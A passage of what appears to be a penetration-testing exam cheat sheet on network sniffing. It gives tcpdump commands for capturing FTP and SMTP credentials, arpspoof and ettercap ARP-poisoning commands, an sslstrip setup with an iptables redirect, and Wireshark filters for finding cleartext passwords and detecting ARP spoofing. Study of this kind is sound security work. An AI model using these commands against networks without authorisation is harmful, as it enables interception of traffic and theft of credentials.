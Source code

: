 ```
tcpdump -i eth0 -A -s0 'tcp port 80 and (((ip[2:2] - ((ip[0]&0xf)<<2)) - ((tcp[12]&0xf0)>>2)) != 0'
```

**Capture FTP Credentials

```
  tcpdump -i eth0 -nn -v port 21 | grep -i 'USER\|PASS'
```

### Active Sniffing (MITM Attacks)

**ARP Poisoning
```
arpspoof -i eth0 -t 192.168.1.100 192.168.1.1
```

```
ettercap -T -q -i eth0 -M arp:remote /192.168.1.100// /192.168.1.1//
```

**SSLStrip Attack

```
sslstrip -a -f -k
```

```
iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 8080
```

### Wireshark Filters (Exam MUST KNOW)

**Find Cleartext Passwords

```
http.request.method == "POST" && http.file_data contains "password"
```

**Detect ARP Spoofing

```
arp.duplicate-address-frame
```

**VoIP Calls

```
udp.port == 5060 || udp.port == 10000-20000
```

### Protocol Analysis

**DNS Query Monitoring
```
tcpdump -i eth0 -nn 'udp port 53'
```

**SMTP Email Capture

```
tcpdump -i eth0 -nn -X -s0 'tcp port 25' | grep -i 'AUTH PLAIN\|MAIL FROM\|RCPT TO'
```
